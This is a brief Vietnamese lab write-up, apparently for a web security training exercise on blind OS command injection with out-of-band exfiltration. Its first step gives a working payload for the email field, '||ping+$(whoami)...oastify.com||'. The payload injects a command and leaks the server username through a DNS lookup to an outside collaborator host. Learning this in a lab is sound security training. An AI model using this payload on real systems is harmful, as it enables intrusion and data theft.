


## Blind OS command injection with out-of-band data exfiltration

1. Sửa email param thành ``||ping+$(whoami).9oyhe79l5yrr04tmy6ahpe3tnkteh3.oastify.com||`` khi đó server sẽ thực hiện DNS lookup

2. Trong tab Collaborator client nhận được request kèm username người dùng hiện tại

